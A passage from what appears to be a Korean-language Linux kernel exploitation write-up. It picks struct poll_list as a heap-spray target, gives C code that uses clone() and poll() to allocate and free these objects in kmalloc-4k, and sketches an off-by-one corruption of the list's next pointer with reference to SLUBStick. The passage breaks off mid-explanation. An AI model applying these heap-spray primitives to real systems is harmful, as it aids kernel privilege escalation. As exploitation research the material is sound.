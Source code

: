 ```plaintext
| aa_label                | security/apparmor/include/label.h:125:8:125:15          | security/apparmor/domain.c:1117:8:1119:37           |
| aa_label                | security/apparmor/include/label.h:125:8:125:15          | security/apparmor/domain.c:895:9:897:25             |
| aa_label                | security/apparmor/include/label.h:125:8:125:15          | security/apparmor/mount.c:707:11:709:27             |
| aa_buffer               | security/apparmor/lsm.c:47:7:47:15                      | security/apparmor/lsm.c:1691:12:1691:18             |
| aa_buffer               | security/apparmor/lsm.c:47:7:47:15                      | security/apparmor/lsm.c:1611:11:1611:17             |
| ima_rule_opt_list       | security/integrity/ima/ima_policy.c:63:8:63:24          | security/integrity/ima/ima_policy.c:288:13:288:19   |
```

결과들을 살펴보다가 [`struct poll_list`](https://elixir.bootlin.com/linux/v5.10.127/source/fs/select.c#L839)가 좋을 것 같다고 생각했다.
의냐하면 `struct poll_list *next`가 첫 번째 멤버이고, 가변 길이로 할당되며, [`poll` system call](https://elixir.bootlin.com/linux/v5.10.127/source/fs/select.c#L1067)를 통해 마음껏 구조체를 할당할 수 있기 때문이다.

#### `struct poll_list`를 자유롭게 할당 및 해제 하기

`struct poll_list`를 사용하기로 했으므로 이 구조체에 대한 할당과 해제를 자유롭게 할 필요가 있었다.
근데 `poll`은 일반적으로 호출되면 유저 프로그램을 블록시키므로, 다른 쓰레드나 프로세스에서 `poll`을 호출해야 했다.

그래서 `pthread_create`를 이용해봤으나 쓰레드가 생기지 않아서 `clone`을 사용했다.

```c
int create_poll(void *timeout_ms) {
  pin_to_core(0);
  const int timeout = (int)(int64_t)timeout_ms;
  const int size = (256 - 16) / 8 + (0x1000 - 16) / 8;
  struct pollfd *fds = malloc(size * sizeof(struct pollfd));
  for (int i = 0; i < size; i++) {
    fds[i].fd = 0xdead0000 + i;
    fds[i].events = POLLIN;
  }
  poll(fds, size, timeout);
  free(fds);
}

#define CLONE_STACK_HEAP_ALLOC_COUNT 1024 * 1024
int create_poll_via_clone(int timeout_ms) {
  char child_stack[CLONE_STACK_HEAP_ALLOC_COUNT];
  int pid = clone(create_poll, child_stack, CLONE_VM | SIGCHLD,
                  (void *)(int64_t)timeout_ms);
  return pid;
}
```

#### [SLUBStick](https://www.usenix.org/conference/usenixsecurity24/presentation/maar-slubstick)

`struct poll_list`의 자유로운 할당과 해제가 가능하므로, kmalloc-4k에 이 구조체를 spray해놓고 off-by-one을 트리거하면 `struct poll_list *next`의 하위 1바이트를 변조할 수 있다.
그런데 그냥 `struct poll_list`를 할당한다고 off-by-one이 `next`를 변조할 수 있을 거라는 보장이 없다.
